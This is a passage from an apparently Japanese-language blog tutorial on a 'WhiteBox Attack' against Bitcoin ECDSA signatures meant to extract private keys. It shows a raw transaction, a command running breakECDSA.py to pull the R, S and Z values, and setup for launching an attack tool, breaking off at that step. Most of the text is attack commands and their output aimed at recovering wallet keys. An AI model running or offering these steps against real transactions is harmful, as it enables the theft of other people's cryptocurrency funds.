 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-43-1024x140.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1641"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-44-1024x216.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1643"/></figure>



<pre class="wp-block-code"><code>R = 0x48771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba5
S = 0x2756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be7
Z = 0xa402dc224f712e09602b06c595f272f3e09408f052d8fba3d88609bbbb150139</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>
